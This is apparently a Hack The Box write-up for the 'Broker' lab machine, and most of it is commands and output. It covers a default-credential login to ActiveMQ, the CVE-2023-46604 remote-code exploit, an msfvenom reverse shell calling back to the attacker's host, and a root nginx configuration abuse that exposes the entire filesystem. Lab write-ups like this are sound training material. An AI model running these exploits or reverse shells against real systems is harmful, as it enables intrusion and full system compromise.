





# Broker - Easy

Target IP: **10.129.230.87**

## User Flag

Initial scans always: ```sudo nmap --open 10.129.230.87 -vvv```

Output shows port 22 and 80 are open.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-10 20:08 EDT
Initiating Ping Scan at 20:08
Scanning 10.129.230.87 [4 ports]
Completed Ping Scan at 20:08, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:08
Completed Parallel DNS resolution of 1 host. at 20:08, 0.02s elapsed
DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 20:08
Scanning 10.129.230.87 [1000 ports]
Discovered open port 80/tcp on 10.129.230.87
Discovered open port 22/tcp on 10.129.230.87
Completed SYN Stealth Scan at 20:08, 0.19s elapsed (1000 total ports)
Nmap scan report for 10.129.230.87
Host is up, received reset ttl 63 (0.0092s latency).
Scanned at 2026-09-10 20:08:15 EDT for 0s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.048KB)
```

Connect and service scan: ```sudo nmap -sC -sV 10.129.230.87 -v```

SSH seems standard, Nginx 1.18.0 running on port 80.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to the webpage, we are greeted with a login form.



Throwing some pebbles at it, let's try ```admin:admin```. It worked - wow.

After logging in we are lead to this an Apache ActiveMQ page. I'm unfamiliar with this application, but apparently it is an open-source message broker written in Java. A message broker is an "intermediary software module that translates, routes, and manages data flow between different applications and services."



The most interesting thing here looks like the "Manage ActiveMQ broker" button, which leads me to believe we could interact with some other applications and services.

We are lead to the ```/admin``` page. Can't go wrong with that. We quickly spot the version of ActiveMQ here, ```5.15.15```.



Let's look for publicly known vulnerabilities for Apache ActiveMQ version 5.15.15. Turns out that it is vulnerable to CVE-2023-46604, a critical RCE flaw.

Let's use this [PoC](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ). First we need to run ```go build```. We additionally need to generate an msfvenom payload and edit some lines in the ```.xml``` file to reflect our http server address.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-rk3ie9runc]─[~]
└──╼ [★]$ git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
Cloning into 'CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ'...
remote: Enumerating objects: 20, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 20 (delta 7), reused 9 (delta 3), pack-reused 0 (from 0)
Receiving objects: 100% (20/20), 1.64 MiB | 11.92 MiB/s, done.
Resolving deltas: 100% (7/7), done.
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-rk3ie9runc]─[~]
└──╼ [★]$ cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-rk3ie9runc]─[~/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ]
└──╼ [★]$ ls
ActiveMQ-RCE.exe  go.mod  main.go  poc-linux.xml  poc-windows.xml  README.md
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-rk3ie9runc]─[~/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ]
└──╼ [★]$ go build
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-rk3ie9runc]─[~/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ]
└──╼ [★]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.194 LPORT=4444 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf
```



```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-rk3ie9runc]─[~/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ]
└──╼ [★]$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On another terminal, run the exploit.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-rk3ie9runc]─[~/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ]
└──╼ [★]$ ./ActiveMQ-RCE -i 10.129.230.87 -u http://10.10.15.194:8000/poc-linux.xml
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.129.230.87:61616
[*] XML URL: http://10.10.15.194:8000/poc-linux.xml

[*] Sending packet: 000000791f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010026687474703a2f2f31302e31302e31352e3139343a383030302f706f632d6c696e75782e786d6c
```

And finally, we get a connection back on our netcat listener as the ```activemq``` user. We can get the user flag from here.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-rk3ie9runc]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.230.87 47562
whoami
activemq
```

## Root Flag

Enumeration. Kernel exploits?

```
uname -a
Linux broker 5.15.0-88-generic #98-Ubuntu SMP Mon Oct 2 15:18:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

Looking online doesn't bring clear results.

Let's check sudo freebies. We can run ```/usr/sbin/nginx``` as root without a password. 

```
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Let's see if we can exploit this. Looking this nginx binary up on GTFOBins gives us a clear pathway. We can host a web server as ```root```, exposing it for us to see the filesystem as if we were ```root``` over the internet.

We set up the malicious ```.conf``` file, then run the nginx server with those configurations as root, then navigate to the specified port to see if it worked.

```
echo 'user root;
http {
  server {
    listen 44444; # The webserver will be hosted on <Remote_IP>:44444
    root /;
    autoindex on;
    dav_methods PUT;
  }
}
events {}' > hi.conf

sudo nginx -c /tmp/hi.conf # Run the webserver with these configurations
```

Browsing to the nginx web server, we are greeted with a beautiful sight. We can navigate through the entire remote filesystem with ```root``` permissions.



We can grab the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
